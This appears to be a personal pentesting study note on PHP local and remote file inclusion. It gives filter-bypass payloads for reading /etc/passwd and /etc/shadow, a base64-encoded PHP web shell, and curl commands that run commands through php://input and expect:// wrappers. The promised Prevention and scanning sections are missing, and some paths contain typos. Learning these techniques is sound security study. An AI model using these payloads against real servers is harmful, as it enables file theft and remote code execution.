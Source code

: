 Navigation: [[Pentesting]]

---
# Table of Contents
1. Introduction
2. Local File Inclusion
3. Finding RCE
4. Remote File Inclusion
5. Automated Scanning
6. Prevention
# Introduction
Lots of backend languages use HTTP parameters to specify what's being shown on the page. This allows for building more dynamic pages, reduces script sizes, and simplifies code.

However, these parameters need to be filtered properly, otherwise they can lead to file inclusion vulnerabilities. This allows an attacker to read or execute files on the server by bypassing filters.

There are two types of file inclusion: local and remote. These names are specified by where the files are contained: local being on the server, and remote being remotely referenced scripts.
# Local File Inclusion
Let's start with an example. Take a look at this URI:
```http
http://<IP>:<PORT>/index.php?lang=es.php
```

From what we can see, we're loading the page `es.php` from our server. If there were no filters, we can change `es.php` to `/etc/shadow` and display that. We're also free to traverse paths if it isn't blocked by the filter.
### Common Filters
**Filename Prefix**
The PHP code would look like this:
```php
include("lang_" . $_GET['language']);
```

Meaning we'd be accessing:
```http
/lang_esp.php
```

Regardless, we'll just include this as a prefix:
```http
/lang_/etc/password
```

**Non-Recursive Path Traversal**
Code:
```PHP
$language = str_replace('../', '', $_GET['language']);
```

Exploit:
```shell
....//
# Server recognizes this as ../
```

**Special Character Filter**
Some web filters remove special characters. We can bypass this using URL encoding.

**Appended Extension**
Some filters require an extension at the end of our files, such as `.php`. There are two bypasses for this:

Path truncation, where we can just extend our path beyond the maximum checked length. Older versions of PHP have a 4096 character path limit, so we can simply have:
```shell
/etc/passwd/././././././././././... # Repeated to 4096 chars
```

With null byte injection, PHP would terminate a string after a null byte. Therefore our payload can look like:
```shell
/etc/passd%00.php
```
# Finding RCE
### PHP Wrappers
We can check the PHP config file found at `/etc/php/X.Y/apache2/php.ini`. Search for a `base64` string and decode it, this contains our configs. 

We'll need `allow_url_include = On` to be enabled for RCE through the data and input wrappers. The expect wrapper relies on `extension=expect` to be set.

**Data Wrapper**
Used to allow external data including PHP code. It can also be passed `base64` code with `text/plain'base64`, and can decode then execute the PHP code. 

Here's a simple way we can send a payload:
```http
data://text/plain;base64, <PHP webshell> &cmd<cmd>
```

Here's the web shell used:
```shell
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

**Input Wrapper**
Similar to the data wrapper, just we POST the data:
```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

**Include Wrapper**
Allows commands to directly be run through URL streams. It's an external wrapper, so it needs to be manually installed and enabled. 

Example usage:
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
# Remote File Inclusion
With RFI, we're essentially just going to host a file server and have the web server grab a file off of us. Nothing else to really include here. You might have to play around with the protocol though.

---
Navigation: [[Pentesting]]